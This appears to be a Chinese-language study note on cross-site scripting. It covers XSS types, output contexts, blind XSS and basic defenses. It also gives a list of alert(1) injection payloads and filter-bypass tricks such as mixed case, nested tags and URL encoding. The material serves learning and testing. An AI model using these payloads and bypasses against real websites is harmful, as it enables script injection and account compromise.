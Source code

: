 ## XSS攻击
###### 全称Cross Site Scripting，跨站脚本。
###### XSS攻击主要分为三类：

1. 反射性XSS
2. 存储型XSS（最隐蔽的攻击类型）
3. DOM型XSS

**上述三种类型的XSS也可以根据输出点的不同分为三类：**

1. 输出在html属性中
2. 输出在CSS代码中
3. 输出在JavaScript中。
##### XSS盲注的特点：
1. 通常不会立即触发；
2. 通常无任何及时响应；
3. 是否XSS注入成功未知；
4. 危险系数较高。

XSS的防御

1. http-only设置，导致拿不到cookie
2. 对用户输入进行过滤
3. 对用户输出进行过滤

常用的XSS语句：

``` html
<svg onload=alert(1)>
直接输出HTML
<input value="autofocus onfocus=alert(1)//">
未过滤，输出在input框中
value=""><svg onload=alert("XSS")//">
未过滤，其他属性值中
<script>var a=""-alert(1)//";</script>
未过滤，输出在JS变量中
<script>var website="xxxx"</script><script>alert(1)//";</script>
未过滤，输出在JS变量中
```

**绕过XSS过滤的方法：**

* 大小写：`<sCriPt>alert(1)</sCriPt>`

* 组合过滤:`<scr<script>ipt>alert(1)</sc<script>ript>`

* 输出在JS中：

* JS单行注释：利用换行符，回车符-》`%0d, %0a`

* JS多行注释：利用多行注释符，`*/`

* URL编码：`encodeURIComponent("<svg onload=alert(1)>") "%3Csvg%20onload%3Dalert(1)%3E"`

* XSS本地存储：`localStorage.setItem()`

#### XSS 攻击的要点：构造XSS payload，打破html结构，使其出错，利用错误信息进一步完善payload以达到攻击目的。
